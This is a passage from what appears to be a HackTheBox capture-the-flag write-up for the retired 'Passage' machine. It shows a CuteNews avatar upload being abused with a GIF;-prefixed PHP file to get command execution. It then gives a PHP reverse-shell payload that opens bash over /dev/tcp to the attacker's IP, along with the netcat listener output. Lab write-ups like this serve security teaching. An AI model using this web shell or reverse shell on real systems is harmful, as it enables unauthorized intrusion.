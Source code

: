 And if that worked properly I should be able to head to that image by right clicking and selecting **Open Image In New Tab** and see I can execute commands. Normally I would need to find a clever way around upload restrictions but in this case I have free reign to upload any file I want permitting it begins with GIF;.

![PHP cmd](/img/passage/passage_news_php_cmd_exploit.png)

From here I can execute any command I want with a post to cmd in the url <code>http://passage.htb/CuteNews/uploads/avatar_raccoon_cmd.php?cmd=</code> but there is a marginally easier solution to this problem.

<h2>Remote Shell from RCE</h2>

If this were the initial writeup I made when I hacked this box when it was current, there would be a couple paragraphs about enumerating the system for potential access points or keys to ssh in with. In hindsight I now know that I have unfettered command execution as www-data or equivalent which means I can upload a reverse shell. 

```php
GIF;
<?php  exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/7777 0>&1'");?>
```

Then I can head to <code>http://passage.htb/CuteNews/uploads/avatar_raccoon_shell.php</code> after uploading my new reverse shell and gain a foothold. The added bonus to this method is if I ever get disconnected I can simply revisit that url to reopen my connection. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Passage]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.206] 57522
bash: cannot set terminal process group (1697): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ 
```
